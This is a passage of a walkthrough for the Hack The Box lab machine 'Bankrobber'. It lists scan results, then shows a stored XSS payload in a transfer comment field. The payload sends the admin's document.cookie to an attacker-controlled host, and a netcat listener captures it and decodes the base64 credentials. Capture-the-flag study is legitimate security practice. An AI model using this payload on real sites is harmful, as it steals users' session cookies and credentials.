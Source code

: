   NIKTO:
  + /notes.txt: This might be interesting...

  SSLSCAN:
  SSL Certificate:
  Signature Algorithm: sha1WithRSAEncryption
  RSA Key Strength:    1024

  Subject:  localhost
  Issuer:   localhost

  Not valid before: Nov 10 23:48:47 2009 GMT
  Not valid after:  Nov  8 23:48:47 2019 GMT

  - Hostname: Bankrobber
  - SQL: MariaDB
  - SSL Cert is Invalid, expired 2019-11-08.
  - notes.txt
    - Move all files from the default Xampp folder: TODO
    - Encode comments for every IP address except localhost: Done
    - Take a break..


2. The site is vulnerable to XSS. Create an account and test to transfer E-coin. When transfering an admin must approve the transfer.
   The Comment field is vulnerable to XSS, we can get the admin cookie by tricking him to connect back to us.

   Start a nc session locally and then do the XSS.

    Amount: 1
    ID Of Addressee: 1
    Comment: <script>new Image().src="http://10.10.14.12/bogus.php?output="%2bdocument.cookie;</script>

    root@p3:/opt/htb/machines/bankrobber/10.10.10.154# nc -lvnp 80
      listening on [any] 80 ...
      connect to [10.10.14.12] from (UNKNOWN) [10.10.10.154] 49706
      GET /bogus.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
      Referer: http://localhost/admin/index.php
      User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
      Accept: */*
      Connection: Keep-Alive
      Accept-Encoding: gzip, deflate
      Accept-Language: nl-NL,en,*
      Host: 10.10.14.12

    Decode the base64 encoded username and password

    root@p3:/opt/htb/machines/bankrobber/10.10.10.154# echo YWRtaW4= | base64 -d
      admin
    root@p3:/opt/htb/machines/bankrobber/10.10.10.154# echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
      Hopelessromantic

    Creds: admin:Hopelessromantic

